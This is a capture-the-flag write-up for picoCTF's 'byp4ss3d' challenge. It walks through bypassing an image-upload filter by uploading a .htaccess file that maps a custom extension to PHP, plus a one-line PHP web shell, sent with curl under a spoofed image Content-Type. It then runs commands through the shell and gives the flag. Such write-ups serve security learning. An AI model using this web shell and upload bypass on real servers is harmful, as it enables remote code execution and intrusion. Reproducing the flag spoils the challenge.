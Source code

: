 <img width="1866" height="145" alt="屏幕截图 2025-10-12 235120" src="https://github.com/user-attachments/assets/7db259a7-5469-4bee-85e8-c904db93cf0f" /># byp4ss3d

<img width="500" height="500" alt="image" src="https://github.com/user-attachments/assets/6c81eebb-16b2-4cc8-9b03-58f8d9f79bac" />

**Tag:** `Web EXploitation`

**Description:** 
> A university's online registration portal asks students to upload their ID cards for verification. The developer put some filters in place to ensure only image files are uploaded but are they enough? Take a look at how the upload is implemented. Maybe there's a way to slip past the checks and interact with the server in ways you shouldn't. You can access the web application at here!

**Attachments:** `http://amiable-citadel.picoctf.net:61584/`

**Hints:**

<details>
<summary>Hint 1</summary>

Apache can be tricked into executing non-PHP files as PHP with a `.htaccess` file.

</details>

<details>
<summary>Hint 2</summary>
  
Try uploading more than just one file.

</details>

**Author:** Yahaya Meddy

**Solved:** `510 users solved`

---

# Prologue

<img width="1863" height="1010" alt="image" src="https://github.com/user-attachments/assets/e605e0a8-ecd9-4204-835f-42b251e803b1" />

A UI is provided for uploading JPEG, PNG, and GIF files. This challenge is a file upload injection and remote code execution challenge.

<img width="500" height="246" alt="image" src="https://github.com/user-attachments/assets/14ee6d2d-6abc-494e-a7a7-41f073c0353c" />

Actually, there is a cool plot twist in this challenge🗿. I can't upload my shell file because of Windows🗿. Thank you Windows for making it difficult for me, so I'll upload it using curl.

# Exploitation

First, we'll create two different file types: .htaccess and shell.xyz. The extension you use is free; it doesn't have to be xyz, as we'll change it to php later in the .htaccess section.

```bash
 zsh >  echo '<?php system($_GET["cmd"]); ?>' > shell.xyz
```

After creating a non-exe shell because the file is not PHP, we will manipulate our shell file in .htaccess. Fill .htaccess with this script.

```bash
 zsh > echo 'AddType application/x-httpd-php .xyz' > .htaccess
```

Please adjust it to your respective extensions. Because I named my file shell.xyz, so I use .xyz. Next, we upload the 2 files by manipulating the Content-Type to contain image/jpeg. because windows has been giving me trouble. then I will upload it using curl

```bash
curl -X POST -F "image=@.htaccess;type=image/jpeg" http://amiable-citadel.picoctf.net:61584/upload.php
Successfully uploaded!<br>Access it at: <a href='images/.htaccess'>images/.htaccess</a>%  
```

```bash
curl -X POST -F "image=@shell.xyz;type=image/jpeg" http://amiable-citadel.picoctf.net:61584/upload.php
Successfully uploaded!<br>Access it at: <a href='images/shell.xyz'>images/shell.xyz</a>%  
```

After successfully logging in, we can open the browser and enter the URL like this

```
http://amiable-citadel.picoctf.net:61584/images/shell.xyz?cmd=id
```

<img width="500" height="98" alt="屏幕截图 2025-10-12 235022" src="https://github.com/user-attachments/assets/b7b6e0e6-9524-43ec-b4c9-15d764181529" />

and yes, our remote code execution was successful. Next, we look for where the flag is located. use this

```
http://amiable-citadel.picoctf.net:61584/images/shell.xyz?cmd=find+/+-name+*flag*+2%3E/dev/null
```

<img width="1000" height="226" alt="屏幕截图 2025-10-12 235058" src="https://github.com/user-attachments/assets/617ffdd7-2fea-430b-b484-38424313257b" />

So we got the location in /var/www/html. Next we just read the file.

<img width="1000" height="145" alt="屏幕截图 2025-10-12 235120" src="https://github.com/user-attachments/assets/9d8413ec-7357-4a39-9211-551ffe42c94a" />

---

# FLAG: picoCTF{s3rv3r_byp4ss_0c257942}
